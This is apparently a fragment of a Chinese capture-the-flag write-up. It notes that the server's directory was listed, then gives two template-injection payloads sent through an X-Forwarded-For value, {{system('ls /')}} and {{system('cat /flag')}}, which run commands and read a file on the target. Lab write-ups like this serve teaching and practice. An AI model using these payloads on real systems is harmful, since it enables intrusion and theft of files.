 ![upload successful](./images/pasted-248.png)
成功ls出服务器的目录，随后
  
<code>xff={{system('ls /')}}</code>
  
<code>xff={{system('cat /flag')}} </code>
